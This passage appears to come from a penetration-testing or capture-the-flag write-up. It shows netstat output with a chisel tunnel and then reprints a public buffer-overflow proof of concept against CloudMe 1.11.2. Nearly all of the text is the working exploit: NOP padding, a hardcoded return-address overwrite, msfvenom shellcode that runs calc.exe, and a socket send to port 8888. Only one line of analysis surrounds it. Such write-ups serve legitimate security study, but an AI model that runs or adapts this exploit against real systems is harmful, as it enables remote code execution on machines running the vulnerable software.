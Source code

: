 ```
tcp6       0      0 :::8000                 :::*                    LISTEN      13166/./chisel_1.6. 
tcp6       0      0 127.0.0.1:41643         :::*                    LISTEN      2654/java           
tcp6       0      0 127.0.0.1:8080          :::*                    LISTEN      2654/java 

```

### Update Exploit

#### Exploit Analysis

It looks like the exploit is a very simple buffer overflow:

```

# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
payload    = b"\xba\xad\x1e\x7c\x02\xdb\xcf\xd9\x74\x24\xf4\x5e\x33"
payload   += b"\xc9\xb1\x31\x83\xc6\x04\x31\x56\x0f\x03\x56\xa2\xfc"
payload   += b"\x89\xfe\x54\x82\x72\xff\xa4\xe3\xfb\x1a\x95\x23\x9f"
payload   += b"\x6f\x85\x93\xeb\x22\x29\x5f\xb9\xd6\xba\x2d\x16\xd8"
payload   += b"\x0b\x9b\x40\xd7\x8c\xb0\xb1\x76\x0e\xcb\xe5\x58\x2f"
payload   += b"\x04\xf8\x99\x68\x79\xf1\xc8\x21\xf5\xa4\xfc\x46\x43"
payload   += b"\x75\x76\x14\x45\xfd\x6b\xec\x64\x2c\x3a\x67\x3f\xee"
payload   += b"\xbc\xa4\x4b\xa7\xa6\xa9\x76\x71\x5c\x19\x0c\x80\xb4"
payload   += b"\x50\xed\x2f\xf9\x5d\x1c\x31\x3d\x59\xff\x44\x37\x9a"
payload   += b"\x82\x5e\x8c\xe1\x58\xea\x17\x41\x2a\x4c\xfc\x70\xff"
payload   += b"\x0b\x77\x7e\xb4\x58\xdf\x62\x4b\x8c\x6b\x9e\xc0\x33"
payload   += b"\xbc\x17\x92\x17\x18\x7c\x40\x39\x39\xd8\x27\x46\x59"
payload   += b"\x83\x98\xe2\x11\x29\xcc\x9e\x7b\x27\x13\x2c\x06\x05"
payload   += b"\x13\x2e\x09\x39\x7c\x1f\x82\xd6\xfb\xa0\x41\x93\xf4"
payload   += b"\xea\xc8\xb5\x9c\xb2\x98\x84\xc0\x44\x77\xca\xfc\xc6"
payload   += b"\x72\xb2\xfa\xd7\xf6\xb7\x47\x50\xea\xc5\xd8\x35\x0c"
payload   += b"\x7a\xd8\x1f\x6f\x1d\x4a\xc3\x5e\xb8\xea\x66\x9f"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))       

buf = padding1 + EIP + NOPS + payload + overrun 

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8888))
        s.send(buf)
except Exception as e:
        print(sys.exc_value)
```